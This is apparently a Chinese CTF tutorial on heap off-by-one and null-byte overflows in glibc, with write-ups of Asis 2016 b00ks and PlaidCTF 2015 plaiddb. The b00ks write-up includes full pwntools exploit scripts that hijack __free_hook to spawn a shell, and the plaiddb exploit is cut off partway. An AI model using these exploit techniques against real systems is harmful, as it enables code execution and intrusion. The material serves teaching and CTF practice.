



堆中的 Off-By-One
介绍
严格来说 off-by-one 漏洞是一种特殊的溢出漏洞，off-by-one 指程序向缓冲区中写入时，写入的字节数超过了这个缓冲区本身所申请的字节数并且只越界了一个字节。
off-by-one 漏洞原理
off-by-one 是指单字节缓冲区溢出，这种漏洞的产生往往与边界验证不严和字符串操作有关，当然也不排除写入的 size 正好就只多了一个字节的情况。其中边界验证不严通常包括
- 使用循环语句向堆块中写入数据时，循环的次数设置错误（这在 C 语言初学者中很常见）导致多写入了一个字节。
- 字符串操作不合适
一般来说，单字节溢出被认为是难以利用的，但是因为 Linux 的堆管理机制 ptmalloc 验证的松散性，基于 Linux 堆的 off-by-one 漏洞利用起来并不复杂，并且威力强大。 此外，需要说明的一点是 off-by-one 是可以基于各种缓冲区的，比如栈、bss 段等等，但是堆上（heap based） 的 off-by-one 是 CTF 中比较常见的。我们这里仅讨论堆上的 off-by-one 情况。
off-by-one 利用思路
- 溢出字节为可控制任意字节：通过修改大小造成块结构之间出现重叠，从而泄露其他块数据，或是覆盖其他块数据。也可使用 NULL 字节溢出的方法
- 溢出字节为 NULL 字节：在 size 为 0x100 的时候，溢出 NULL 字节可以使得
prev_in_use位被清，这样前块会被认为是 free 块。（1） 这时可以选择使用 unlink 方法（见 unlink 部分）进行处理。（2） 另外，这时prev_size域就会启用，就可以伪造prev_size，从而造成块之间发生重叠。此方法的关键在于 unlink 的时候没有检查按照prev_size找到的块的大小与prev_size是否一致。
最新版本代码中，已加入针对 2 中后一种方法的 check ，但是在 2.28 及之前版本并没有该 check 。
/* consolidate backward */
if (!prev_inuse(p)) {
prevsize = prev_size (p);
size += prevsize;
p = chunk_at_offset(p, -((long) prevsize));
/* 后两行代码在最新版本中加入，则 2 的第二种方法无法使用，但是 2.28 及之前都没有问题 */
if (__glibc_unlikely (chunksize(p) != prevsize))
malloc_printerr ("corrupted size vs. prev_size while consolidating");
unlink_chunk (av, p);
}
示例 1
int my_gets(char *ptr,int size)
{
int i;
for(i=0;i<=size;i++)
{
ptr[i]=getchar();
}
return i;
}
int main()
{
void *chunk1,*chunk2;
chunk1=malloc(16);
chunk2=malloc(16);
puts("Get Input:");
my_gets(chunk1,16);
return 0;
}
我们自己编写的 my_gets 函数导致了一个 off-by-one 漏洞，原因是 for 循环的边界没有控制好导致写入多执行了一次，这也被称为栅栏错误
wikipedia: 栅栏错误（有时也称为电线杆错误或者灯柱错误）是差一错误的一种。如以下问题：
建造一条直栅栏（即不围圈），长 30 米、每条栅栏柱间相隔 3 米，需要多少条栅栏柱？最容易想到的答案 10 是错的。这个栅栏有 10 个间隔，11 条栅栏柱。
我们使用 gdb 对程序进行调试，在进行输入前可以看到分配的两个用户区域为 16 字节的堆块
0x602000: 0x0000000000000000 0x0000000000000021 <=== chunk1
0x602010: 0x0000000000000000 0x0000000000000000
0x602020: 0x0000000000000000 0x0000000000000021 <=== chunk2
0x602030: 0x0000000000000000 0x0000000000000000
当我们执行 my_gets 进行输入之后，可以看到数据发生了溢出覆盖到了下一个堆块的 prev_size 域 print 'A'*17
0x602000: 0x0000000000000000 0x0000000000000021 <=== chunk1
0x602010: 0x4141414141414141 0x4141414141414141
0x602020: 0x0000000000000041 0x0000000000000021 <=== chunk2
0x602030: 0x0000000000000000 0x0000000000000000
示例 2
第二种常见的导致 off-by-one 的场景就是字符串操作了，常见的原因是字符串的结束符计算有误
int main(void)
{
char buffer[40]="";
void *chunk1;
chunk1=malloc(24);
puts("Get Input");
gets(buffer);
if(strlen(buffer)==24)
{
strcpy(chunk1,buffer);
}
return 0;
}
程序乍看上去没有任何问题（不考虑栈溢出），可能很多人在实际的代码中也是这样写的。
但是 strlen 和 strcpy 的行为不一致却导致了 off-by-one 的发生。
strlen 是我们很熟悉的计算 ascii 字符串长度的函数，这个函数在计算字符串长度时是不把结束符 '\x00' 计算在内的，但是 strcpy 在复制字符串时会拷贝结束符 '\x00' 。这就导致了我们向 chunk1 中写入了 25 个字节，我们使用 gdb 进行调试可以看到这一点。
0x602000: 0x0000000000000000 0x0000000000000021 <=== chunk1
0x602010: 0x0000000000000000 0x0000000000000000
0x602020: 0x0000000000000000 0x0000000000000411 <=== next chunk
在我们输入'A'*24 后执行 strcpy
0x602000: 0x0000000000000000 0x0000000000000021
0x602010: 0x4141414141414141 0x4141414141414141
0x602020: 0x4141414141414141 0x0000000000000400
可以看到 next chunk 的 size 域低字节被结束符 '\x00' 覆盖，这种又属于 off-by-one 的一个分支称为 NULL byte off-by-one，我们在后面会看到 off-by-one 与 NULL byte off-by-one 在利用上的区别。
还是有一点就是为什么是低字节被覆盖呢，因为我们通常使用的 CPU 的字节序都是小端法的，比如一个 DWORD 值在使用小端法的内存中是这样储存的
DWORD 0x41424344
内存 0x44,0x43,0x42,0x41
在 libc-2.29 之后
由于这两行代码的加入
if (__glibc_unlikely (chunksize(p) != prevsize))
malloc_printerr ("corrupted size vs. prev_size while consolidating");
由于我们难以控制一个真实 chunk 的 size 字段，所以传统的 off-by-null 方法失效。但是，只需要满足被 unlink 的 chunk 和下一个 chunk 相连，所以仍然可以伪造 fake_chunk。
伪造的方式就是使用 large bin 遗留的 fd_nextsize 和 bk_nextsize 指针。以 fd_nextsize 为 fake_chunk 的 fd，bk_nextsize 为 fake_chunk 的 bk，这样我们可以完全控制该 fake_chunk 的 size 字段（这个过程会破坏原 large bin chunk 的 fd 指针，但是没有关系），同时还可以控制其 fd（通过部分覆写 fd_nextsize）。通过在后面使用其他的 chunk 辅助伪造，可以通过该检测
if (__glibc_unlikely (chunksize(p) != prevsize))
malloc_printerr ("corrupted size vs. prev_size while consolidating");
然后只需要通过 unlink 的检测就可以了，也就是 fd->bk == p && bk->fd == p
如果 large bin 中仅有一个 chunk，那么该 chunk 的两个 nextsize 指针都会指向自己，如下

我们可以控制 fd_nextsize 指向堆上的任意地址，可以容易地使之指向一个 fastbin + 0x10 - 0x18，而 fastbin 中的 fd 也会指向堆上的一个地址，通过部分覆写该指针也可以使该指针指向之前的 large bin + 0x10，这样就可以通过 fd->bk == p 的检测。
由于 bk_nextsize 我们无法修改，所以 bk->fd 必然在原先的 large bin chunk 的 fd 指针处（这个 fd 被我们破坏了）。通过 fastbin 的链表特性可以做到修改这个指针且不影响其他的数据，再部分覆写之就可以通过 bk->fd==p 的检测了。
然后通过 off-by-one 向低地址合并就可以实现 chunk overlapping 了，之后可以 leak libc_base 和 堆地址，tcache 打 __free_hook 即可。
光讲原理比较难理解，建议结合题目学习，比如本文中的实例 3。
实例 1: Asis CTF 2016 b00ks
题目介绍
题目是一个常见的选单式程序，功能是一个图书管理系统。
1. Create a book
2. Delete a book
3. Edit a book
4. Print book detail
5. Change current author name
6. Exit
程序提供了创建、删除、编辑、打印图书的功能。题目是 64 位程序，保护如下所示。
Canary : No
NX : Yes
PIE : Yes
Fortify : No
RelRO : Full
程序每创建一个 book 会分配 0x20 字节的结构来维护它的信息
struct book
{
int id;
char *name;
char *description;
int size;
}
create
book 结构中存在 name 和 description ， name 和 description 在堆上分配。首先分配 name buffer ，使用 malloc ，大小自定但小于 32 。
printf("\nEnter book name size: ", *(_QWORD *)&size);
__isoc99_scanf("%d", &size);
printf("Enter book name (Max 32 chars): ", &size);
ptr = malloc(size);
之后分配 description ，同样大小自定但无限制。
printf("\nEnter book description size: ", *(_QWORD *)&size);
__isoc99_scanf("%d", &size);
v5 = malloc(size);
之后分配 book 结构的内存
book = malloc(0x20uLL);
if ( book )
{
*((_DWORD *)book + 6) = size;
*((_QWORD *)off_202010 + v2) = book;
*((_QWORD *)book + 2) = description;
*((_QWORD *)book + 1) = name;
*(_DWORD *)book = ++unk_202024;
return 0LL;
}
漏洞
程序编写的 read 函数存在 null byte off-by-one 漏洞，仔细观察这个 read 函数可以发现对于边界的考虑是不当的。
signed __int64 __fastcall my_read(_BYTE *ptr, int number)
{
int i; // [rsp+14h] [rbp-Ch]
_BYTE *buf; // [rsp+18h] [rbp-8h]
if ( number <= 0 )
return 0LL;
buf = ptr;
for ( i = 0; ; ++i )
{
if ( (unsigned int)read(0, buf, 1uLL) != 1 )
return 1LL;
if ( *buf == '\n' )
break;
++buf;
if ( i == number )
break;
}
*buf = 0;
return 0LL;
}
利用
泄漏
因为程序中的 my_read 函数存在 null byte off-by-one ，事实上 my_read 读入的结束符 '\x00' 是写入到 0x555555756060 的位置的。这样当 0x555555756060～0x555555756068 写入 book 指针时就会覆盖掉结束符 '\x00' ，所以这里是存在一个地址泄漏的漏洞。通过打印 author name 就可以获得 pointer array 中第一项的值。
0x555555756040: 0x6161616161616161 0x6161616161616161
0x555555756050: 0x6161616161616161 0x6161616161616161 <== author name
0x555555756060: 0x0000555555757480 <== pointer array 0x0000000000000000
0x555555756070: 0x0000000000000000 0x0000000000000000
0x555555756080: 0x0000000000000000 0x0000000000000000
为了实现泄漏，首先在 author name 中需要输入 32 个字节来使得结束符被覆盖掉。之后我们创建 book1 ，这个 book1 的指针会覆盖 author name 中最后的 NULL 字节，使得该指针与 author name 直接连接，这样输出 author name 则可以获取到一个堆指针。
io.recvuntil('Enter author name:') # input author name
io.sendline('a' * 32)
io.recvuntil('>') # create book1
io.sendline('1')
io.recvuntil('Enter book name size:')
io.sendline('32')
io.recvuntil('Enter book name (Max 32 chars):')
io.sendline('object1')
io.recvuntil('Enter book description size:')
io.sendline('32')
io.recvuntil('Enter book description:')
io.sendline('object1')
io.recvuntil('>') # print book1
io.sendline('4')
io.recvuntil('Author:')
io.recvuntil('aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa') # <== leak book1
book1_addr = io.recv(6)
book1_addr = book1_addr.ljust(8,'\x00')
book1_addr = u64(book1_addr)
off-by-one 覆盖指针低字节
程序中同样提供了一种 change 功能， change 功能用于修改 author name ，所以通过 change 可以写入 author name ，利用 off-by-one 覆盖 pointer array 第一个项的低字节。
覆盖掉 book1 指针的低字节后，这个指针会指向 book1 的 description ，由于程序提供了 edit 功能可以任意修改 description 中的内容。我们可以提前在 description 中布置数据伪造成一个 book 结构，这个 book 结构的 description 和 name 指针可以由直接控制。
def off_by_one(addr):
addr += 58
io.recvuntil('>')# create fake book in description
io.sendline('3')
fake_book_data = p64(0x1) + p64(addr) + p64(addr) + pack(0xffff)
io.recvuntil('Enter new book description:')
io.sendline(fake_book_data) # <== fake book
io.recvuntil('>') # change author name
io.sendline('5')
io.recvuntil('Enter author name:')
io.sendline('a' * 32) # <== off-by-one
这里在 description 中伪造了 book ，使用的数据是 p64(0x1)+p64(addr)+p64(addr)+pack(0xffff) 。 其中 addr+58 是为了使指针指向 book2 的指针地址，使得我们可以任意修改这些指针值。
通过栈实现利用
通过前面 2 部分我们已经获得了任意地址读写的能力，读者读到这里可能会觉得下面的操作是显而易见的，比如写 got 表劫持流程或者写 __malloc_hook 劫持流程等。但是这个题目特殊之处在于开启 PIE 并且没有泄漏 libc 基地址的方法，因此我们还需要想一下其他的办法。
这道题的巧妙之处在于在分配第二个 book 时，使用一个很大的尺寸，使得堆以 mmap 模式进行拓展。我们知道堆有两种拓展方式一种是 brk 会直接拓展原来的堆，另一种是 mmap 会单独映射一块内存。
在这里我们申请一个超大的块，来使用 mmap 扩展内存。因为 mmap 分配的内存与 libc 之前存在固定的偏移因此可以推算出 libc 的基地址。
Start End Offset Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /home/vb/ 桌面 /123/123
0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /home/vb/ 桌面 /123/123
0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /home/vb/ 桌面 /123/123
0x00007f8d638a3000 0x00007f8d63a63000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libc-2.23.so
0x00007f8d63a63000 0x00007f8d63c63000 0x00000000001c0000 --- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007f8d63c63000 0x00007f8d63c67000 0x00000000001c0000 r-- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007f8d63c67000 0x00007f8d63c69000 0x00000000001c4000 rw- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007f8d63c69000 0x00007f8d63c6d000 0x0000000000000000 rw-
0x00007f8d63c6d000 0x00007f8d63c93000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/ld-2.23.so
0x00007f8d63e54000 0x00007f8d63e79000 0x0000000000000000 rw- <=== mmap
0x00007f8d63e92000 0x00007f8d63e93000 0x0000000000025000 r-- /lib/x86_64-linux-gnu/ld-2.23.so
0x00007f8d63e93000 0x00007f8d63e94000 0x0000000000026000 rw- /lib/x86_64-linux-gnu/ld-2.23.so
0x00007f8d63e94000 0x00007f8d63e95000 0x0000000000000000 rw-
0x00007ffdc4f12000 0x00007ffdc4f33000 0x0000000000000000 rw- [stack]
0x00007ffdc4f7a000 0x00007ffdc4f7d000 0x0000000000000000 r-- [vvar]
0x00007ffdc4f7d000 0x00007ffdc4f7f000 0x0000000000000000 r-x [vdso]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]
Start End Offset Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /home/vb/ 桌面 /123/123
0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /home/vb/ 桌面 /123/123
0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /home/vb/ 桌面 /123/123
0x00007f6572703000 0x00007f65728c3000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libc-2.23.so
0x00007f65728c3000 0x00007f6572ac3000 0x00000000001c0000 --- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007f6572ac3000 0x00007f6572ac7000 0x00000000001c0000 r-- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007f6572ac7000 0x00007f6572ac9000 0x00000000001c4000 rw- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007f6572ac9000 0x00007f6572acd000 0x0000000000000000 rw-
0x00007f6572acd000 0x00007f6572af3000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/ld-2.23.so
0x00007f6572cb4000 0x00007f6572cd9000 0x0000000000000000 rw- <=== mmap
0x00007f6572cf2000 0x00007f6572cf3000 0x0000000000025000 r-- /lib/x86_64-linux-gnu/ld-2.23.so
0x00007f6572cf3000 0x00007f6572cf4000 0x0000000000026000 rw- /lib/x86_64-linux-gnu/ld-2.23.so
0x00007f6572cf4000 0x00007f6572cf5000 0x0000000000000000 rw-
0x00007fffec566000 0x00007fffec587000 0x0000000000000000 rw- [stack]
0x00007fffec59c000 0x00007fffec59f000 0x0000000000000000 r-- [vvar]
0x00007fffec59f000 0x00007fffec5a1000 0x0000000000000000 r-x [vdso]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]
exploit
from pwn import *
context.log_level="info"
binary = ELF("b00ks")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
io = process("./b00ks")
def createbook(name_size, name, des_size, des):
io.readuntil("> ")
io.sendline("1")
io.readuntil(": ")
io.sendline(str(name_size))
io.readuntil(": ")
io.sendline(name)
io.readuntil(": ")
io.sendline(str(des_size))
io.readuntil(": ")
io.sendline(des)
def printbook(id):
io.readuntil("> ")
io.sendline("4")
io.readuntil(": ")
for i in range(id):
book_id = int(io.readline()[:-1])
io.readuntil(": ")
book_name = io.readline()[:-1]
io.readuntil(": ")
book_des = io.readline()[:-1]
io.readuntil(": ")
book_author = io.readline()[:-1]
return book_id, book_name, book_des, book_author
def createname(name):
io.readuntil("name: ")
io.sendline(name)
def changename(name):
io.readuntil("> ")
io.sendline("5")
io.readuntil(": ")
io.sendline(name)
def editbook(book_id, new_des):
io.readuntil("> ")
io.sendline("3")
io.readuntil(": ")
io.writeline(str(book_id))
io.readuntil(": ")
io.sendline(new_des)
def deletebook(book_id):
io.readuntil("> ")
io.sendline("2")
io.readuntil(": ")
io.sendline(str(book_id))
createname("A" * 32)
createbook(128, "a", 32, "a")
createbook(0x21000, "a", 0x21000, "b")
book_id_1, book_name, book_des, book_author = printbook(1)
book1_addr = u64(book_author[32:32+6].ljust(8,'\x00'))
log.success("book1_address:" + hex(book1_addr))
payload = p64(1) + p64(book1_addr + 0x38) + p64(book1_addr + 0x40) + p64(0xffff)
editbook(book_id_1, payload)
changename("A" * 32)
book_id_1, book_name, book_des, book_author = printbook(1)
book2_name_addr = u64(book_name.ljust(8,"\x00"))
book2_des_addr = u64(book_des.ljust(8,"\x00"))
log.success("book2 name addr:" + hex(book2_name_addr))
log.success("book2 des addr:" + hex(book2_des_addr))
libc_base = book2_des_addr - 0x5b9010
log.success("libc base:" + hex(libc_base))
free_hook = libc_base + libc.symbols["__free_hook"]
one_gadget = libc_base + 0x4f322 # 0x4f2c5 0x10a38c 0x4f322
log.success("free_hook:" + hex(free_hook))
log.success("one_gadget:" + hex(one_gadget))
editbook(1, p64(free_hook) * 2)
editbook(2, p64(one_gadget))
deletebook(2)
io.interactive()
简洁方案
在任意读写之后，另一种找到 libc 的方案其实是可以在进行任意读写之前首先造成 libc 地址被写在堆上，之后任意读将其读出来即可。
其中为找到 libc 所在的偏移，可以直接通过 gdb 调试，查看具体 libc 地址在堆上的位置即可，不用进行刻意计算。
exp 如下：
#! /usr/bin/env python2
# -*- coding: utf-8 -*-
# vim:fenc=utf-8
import sys
import os
import os.path
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
if len(sys.argv) > 2:
DEBUG = 0
HOST = sys.argv[1]
PORT = int(sys.argv[2])
p = remote(HOST, PORT)
else:
DEBUG = 1
if len(sys.argv) == 2:
PATH = sys.argv[1]
p = process(PATH)
def cmd(choice):
p.recvuntil('> ')
p.sendline(str(choice))
def create(book_size, book_name, desc_size, desc):
cmd(1)
p.recvuntil(': ')
p.sendline(str(book_size))
p.recvuntil(': ')
if len(book_name) == book_size:
p.send(book_name)
else:
p.sendline(book_name)
p.recvuntil(': ')
p.sendline(str(desc_size))
p.recvuntil(': ')
if len(desc) == desc_size:
p.send(desc)
else:
p.sendline(desc)
def remove(idx):
cmd(2)
p.recvuntil(': ')
p.sendline(str(idx))
def edit(idx, desc):
cmd(3)
p.recvuntil(': ')
p.sendline(str(idx))
p.recvuntil(': ')
p.send(desc)
def author_name(author):
cmd(5)
p.recvuntil(': ')
p.send(author)
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
def main():
# Your exploit script goes here
# leak heap address
p.recvuntil('name: ')
p.sendline('x' * (0x20 - 5) + 'leak:')
create(0x20, 'tmp a', 0x20, 'b') # 1
cmd(4)
p.recvuntil('Author: ')
p.recvuntil('leak:')
heap_leak = u64(p.recvline().strip().ljust(8, '\x00'))
p.info('heap leak @ 0x%x' % heap_leak)
heap_base = heap_leak - 0x1080
create(0x20, 'buf 1', 0x20, 'desc buf') # 2
create(0x20, 'buf 2', 0x20, 'desc buf 2') # 3
remove(2)
remove(3)
ptr = heap_base + 0x1180
payload = p64(0) + p64(0x101) + p64(ptr - 0x18) + p64(ptr - 0x10) + '\x00' * 0xe0 + p64(0x100)
create(0x20, 'name', 0x108, 'overflow') # 4
create(0x20, 'name', 0x100 - 0x10, 'target') # 5
create(0x20, '/bin/sh\x00', 0x200, 'to arbitrary read write') # 6
edit(4, payload) # overflow
remove(5) # unlink
edit(4, p64(0x30) + p64(4) + p64(heap_base + 0x11a0) + p64(heap_base + 0x10c0) + '\n')
def write_to(addr, content, size):
edit(4, p64(addr) + p64(size + 0x100) + '\n')
edit(6, content + '\n')
def read_at(addr):
edit(4, p64(addr) + '\n')
cmd(4)
p.recvuntil('Description: ')
p.recvuntil('Description: ')
p.recvuntil('Description: ')
content = p.recvline()[:-1]
p.info(content)
return content
libc_leak = u64(read_at(heap_base + 0x11e0).ljust(8, '\x00')) - 0x3c4b78
p.info('libc leak @ 0x%x' % libc_leak)
write_to(libc_leak + libc.symbols['__free_hook'], p64(libc_leak + libc.symbols['system']), 0x10)
remove(6)
p.interactive()
if __name__ == '__main__':
main()
实例 2 : plaidctf 2015 plaiddb
➜ 2015_plaidctf_datastore git:(master) file datastore
datastore: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=1a031710225e93b0b5985477c73653846c352add, stripped
➜ 2015_plaidctf_datastore git:(master) checksec datastore
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/off_by_one/2015_plaidctf_datastore/datastore'
Arch: amd64-64-little
RELRO: Full RELRO
Stack: Canary found
NX: NX enabled
PIE: PIE enabled
FORTIFY: Enabled
➜ 2015_plaidctf_datastore git:(master)
可以看出，该程序是 64 位动态链接的。保护全部开启。
功能分析
关键数据结构：
struct Node {
char *key;
long data_size;
char *data;
struct Node *left;
struct Node *right;
long dummy;
long dummy1;
}
主要使用了二叉树的结构来存储数据，具体存储过程其实并不影响利用。
功能函数需要注意的是 getline (自己实现的单行读取函数):
char *__fastcall getline(__int64 a1, __int64 a2)
{
char *v2; // r12
char *v3; // rbx
size_t v4; // r14
char v5; // al
char v6; // bp
signed __int64 v7; // r13
char *v8; // rax
v2 = (char *)malloc(8uLL); // 一开始使用 malloc(8) 进行分配
v3 = v2;
v4 = malloc_usable_size(v2); // 计算了可用大小，例如对于 malloc(8) 来说，这里应该为24
while ( 1 )
{
v5 = _IO_getc(stdin);
v6 = v5;
if ( v5 == -1 )
bye();
if ( v5 == 10 )
break;
v7 = v3 - v2;
if ( v4 <= v3 - v2 )
{
v8 = (char *)realloc(v2, 2 * v4); // 大小不够是将可用大小乘二，进行 realloc
v2 = v8;
if ( !v8 )
{
puts("FATAL: Out of memory");
exit(-1);
}
v3 = &v8[v7];
v4 = malloc_usable_size(v8);
}
*v3++ = v6; // <--- 漏洞所在，此时 v3 作为索引，指向了下一个位置，如果位置全部使用完毕则会指向下一个本应该不可写位置
}
*v3 = 0; // <--- 漏洞所在。 off by one （NULL 字节溢出）
return v2;
}
几个主要功能：
unsigned __int64 main_fn()
{
char v1[8]; // [rsp+0h] [rbp-18h]
unsigned __int64 v2; // [rsp+8h] [rbp-10h]
v2 = __readfsqword(0x28u);
puts("PROMPT: Enter command:");
gets_checked(v1, 8LL);
if ( !strcmp(v1, "GET\n") )
{
cmd_get();
}
else if ( !strcmp(v1, "PUT\n") )
{
cmd_put();
}
else if ( !strcmp(v1, "DUMP\n") )
{
cmd_dump();
}
else if ( !strcmp(v1, "DEL\n") )
{
cmd_del();
}
else
{
if ( !strcmp(v1, "EXIT\n") )
bye();
__printf_chk(1LL, "ERROR: '%s' is not a valid command.\n", v1);
}
return __readfsqword(0x28u) ^ v2;
}
dump 和 get 都是用来读取内容，这样 key 和具体数据内容都可以读取，不太需要重点关注。重点关注 put 和 del：
__int64 __fastcall cmd_put()
{
__int64 v0; // rsi
Node *row; // rbx
unsigned __int64 sz; // rax
char *v3; // rax
__int64 v4; // rbp
__int64 result; // rax
__int64 v6; // [rsp+0h] [rbp-38h]
unsigned __int64 v7; // [rsp+18h] [rbp-20h]
v7 = __readfsqword(0x28u);
row = (Node *)malloc(0x38uLL);
if ( !row )
{
puts("FATAL: Can't allocate a row");
exit(-1);
}
puts("PROMPT: Enter row key:");
row->key = getline((__int64)"PROMPT: Enter row key:", v0);
puts("PROMPT: Enter data size:");
gets_checked((char *)&v6, 16LL);
sz = strtoul((const char *)&v6, 0LL, 0);
row->data_size = sz;
v3 = (char *)malloc(sz);
row->data = v3;
if ( v3 )
{
puts("PROMPT: Enter data:");
fread_checked(row->data, row->data_size);
v4 = insert_node(row);
if ( v4 )
{
free(row->key);
free(*(void **)(v4 + 16));
*(_QWORD *)(v4 + 8) = row->data_size;
*(_QWORD *)(v4 + 16) = row->data;
free(row);
puts("INFO: Update successful.");
}
else
{
puts("INFO: Insert successful.");
}
result = __readfsqword(0x28u) ^ v7;
}
else
{
puts("ERROR: Can't store that much data.");
free(row->key);
free(row);
}
return result;
}
分配过程有：
- malloc(0x38) (结构体)
- getline (malloc 和 realloc)
- malloc(size) 可控大小
- 读入 size 字节内容
更复杂的部分我们可以之后在看是否会用到，也就是在 put 中用到的关于 free 的部分
对于删除来说，这个函数比较复杂，就不再详细解释。事实上只需要知道他是按照 key 来进行删除，key 则使用 getline 进行读取，如果没有该 key，则 getline 的部分不会被删除，有的话，就依次 free
漏洞利用分析
漏洞的位置在功能分析中已经指出来了，在 getline 当中，但是这个函数比较特殊的地方在于，它所分配的大小是逐渐增大的，通过可用大小乘二的方式增大，使用了 realloc，也就是说，我们想要触发这个漏洞，就需要满足特定大小的要求。
根据分配过程，满足的大小有：
- 0x18
- 0x38
- 0x78
- 0xf8
- 0x1f8
- ...
这些大小都可以触发溢出。
现在我们就需要知道我们需要采用的具体利用方法了。首先 off-by-one 漏洞可以造成堆交叉，可以造成 libc 地址泄露，之后所要采用的利用方法，由于已经存在堆交叉，也就是可以形成 UAF ，可以使用 UAF 的常用方法。
UAF 漏洞最简单的方法当然是 fastbin attack 了，所以我采用了 fastbin attack。
到这里，我们就可以开始思考如何形成我们所需要的利用条件。off-by-one最终的效果是可以将一个释放状态的 smallbin chunk 或是 unsortedbin chunk 一直到被溢出 chunk 合并成一个大 chunk。也就是说：
+------------+
| | <-- free 的 unsortedbin 或是 smallbin chunk （因为此时 fd 和 bk 指向合法指针，才能够进行 unlink）
+------------+
| ... | <-- 任意 chunk
+------------+
| | <-- 进行溢出的 chunk
+------------+
| vuln | <-- 被溢出的 chunk，大小为 0x_00 （例如 0x100, 0x200……）
+------------+
在 off-by-one 利用后，以上出现的 chunk 都将被合并为一个释放状态的 chunk。这样中间任意 chunk 的位置如果是已被分配的，就可以造成 overlap 了。
按照我们的利用思路，结合题目 getline 函数通过 malloc(8) 再 realloc 的分配方式，我们需要：
- 任意 chunk 位置至少有一个已经被分配，且可以读出数据的 chunk 来泄露 libc 地址
- 进行溢出的 chunk 需要在最上方的 chunk 之前被分配，否则
malloc(8)的时候会分配到最上方而不是进行溢出 chunk 应在的位置 - 任意 chunk 位置至少还需要有一个已经被释放，且 size 为 0x71 的 chunk 来进行 fastbin attack
- 所有 chunk 不应该被合并进 top，所以最下方应该有一个已经分配的 chunk 保证与 top chunk 的距离
- 进行溢出的 chunk 大小应该属于 unsortedbin 或是 smallbin，不能为 fastbin，否则被释放之后，按照
getline的分配方式，malloc(8)无法分配在该位置
按照以上原则，我们可以思考出 chunk 的分布如下：
+------------+
| 1 | <-- free 的 size == 0x200 chunk
+------------+
| 2 | <-- size == 0x60 fastbin chunk，已被分配，且可以读出数据
+------------+
| 5 | <-- size == 0x71 fastbin chunk，为 fastbin attack 做准备
+------------+
| 3 | <-- size == 0x1f8 free 状态的 smallbin/unsortedbin chunk
+------------+
| 4 | <-- size == 0x101 被溢出 chunk
+------------+
| X | <-- 任意分配后 chunk 防止 top 合并
+------------+
由于分配过程还有一些额外结构（结构体本身的分配和 getline），我们需要先释放出足够的 fastbin chunk 来避免结构体本身的分配对我们的过程造成影响。
在此之后，依次释放掉 5, 3, 1, 之后利用 del 输入时候的 getline，将 3 填满，造成 off-by-one，之后将 4 free 掉进行合并（伪造 prev_size），这样就有了一个交叉的堆结构了。
之后的过程就更加简单了，首先分配 1 的大小，使得 libc 地址被写到 2 里，就可以泄露出地址，然后将 5 分配出来，写入需要的内容，就可以 fastbin attack 了。
exploit
由于原 libc 为 2.19 版本，加载有一些奇怪的问题，较为麻烦，而本题没有用到 2.19 独有的特性，所以我采用了 2.23 的 libc 进行调试，版本为 ubuntu10。
#! /usr/bin/env python2
# -*- coding: utf-8 -*-
# vim:fenc=utf-8
import sys
import os
import os.path
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
if len(sys.argv) > 2:
DEBUG = 0
HOST = sys.argv[1]
PORT = int(sys.argv[2])
p = remote(HOST, PORT)
else:
DEBUG = 1
if len(sys.argv) == 2:
PATH = sys.argv[1]
p = process(PATH)
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6') # ubuntu 16.04
def cmd(command_num):
p.recvuntil('command:')
p.sendline(str(command_num))
def put(key, size, data):
cmd('PUT')
p.recvuntil('key:')
p.sendline(key)
p.recvuntil('size:')
p.sendline(str(size))
p.recvuntil('data:')
if len(data) < size:
p.send(data.ljust(size, '\x00'))
else:
p.send(data)
def delete(key):
cmd('DEL')
p.recvuntil('key:')
p.sendline(key)
def get(key):
cmd('GET')
p.recvuntil('key:')
p.sendline(key)
p.recvuntil('[')
num = int(p.recvuntil(' bytes').strip(' bytes'))
p.recvuntil(':\n')
return p.recv(num)
def main():
# avoid complicity of structure malloc
for i in range(10):
